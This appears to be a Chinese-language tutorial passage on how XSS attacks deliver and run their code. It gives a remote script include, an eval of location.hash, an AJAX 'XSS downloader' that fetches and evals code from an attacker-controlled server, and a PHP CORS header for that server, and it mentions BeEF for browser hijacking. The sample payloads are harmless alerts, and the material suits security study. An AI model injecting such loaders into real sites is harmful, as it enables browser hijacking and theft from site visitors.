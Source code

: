 #### shellcode的调用

shellcode就是利用漏洞所执行的代码，完整的xss攻击会将shellcode存放在一定的地方，然后漏洞触发，调用shellcode

1. 远程调用js

   将js代码单独放在一个文件夹内，存放在一个可以网络访问到的服务器上，通过http协议远程加载该脚本，如：

   `<script src="IP地址/XSS-TEST/normal/xss.js"></script>`

   这是最常见的方式，XSS.JS代码内容：`alert('xss.js');`

2. windows.location.hash

   我们也可以使用js中的windows.location.hash方法获取浏览器的URL地址栏的XSS代码，windows.location.hash会获取URL中 # 后面的内容，例如`http://domain.com/index.php#AJEST`，windows.location.hash的值就是#AJEST

   构造的代码如下：

   `?submit=submit&xsscode=<script>eval(location.hash.substr(1))</script>#alert(/This is windows.location.hash/)`，提交到测试页面xss.php

3. XSS downloader

   XSS下载器就是将XSS代码写到网页中，然后通过AJAX技术，取得网页中的XSS代码。在使用XSS Downloader之前需要一个我们自己的页面，xss_downloader.php，内容如下：

   `~~~~BOF|alert(/xss/)|EOF~~~~~~~~~~（波浪线代替html代码）`

   常见的下载器代码如下：

   `<script>
   function XSS() {
   	if (window.XMLHttpRequest) {
   		a = new XMLHttpRequest() ;
   	}else if (window.ActiveXObject) {
   		a = new ActiveXObject( "Microsoft.XMLHTTP");
   	else {return;}
   	a.open('get',' http://IP/目录/xss_downloader.php',false) ;
   	a.send() ;
   	b=a.responseText;
   	eval(unescape(b.substring(b.indexOf('BOF|')+4,b.indexOf('|EOF'))));}
   XSS() ;
   </script>`

   - 注意：Ajax 受同源策略的限制，为了解决这个问题，我们需要在服务端代码中加入几句代码：

     `<?php`

     `header ('Access-Control-Allow-Origin: *') ;`

     `header ('Access-Control-Allow-Headers: Origin, X-Requested-with， Content -Type，Accept') ;`

     `?>`

4. 备选存储技术

   我们可以把shellcode存储在客户端本地域中，比如HTTP cookie、flash共享对象、userdata、localstorage等

5. XSS神器，beef，是一款XSS漏洞利用平台，使用beef可以进行浏览器劫持
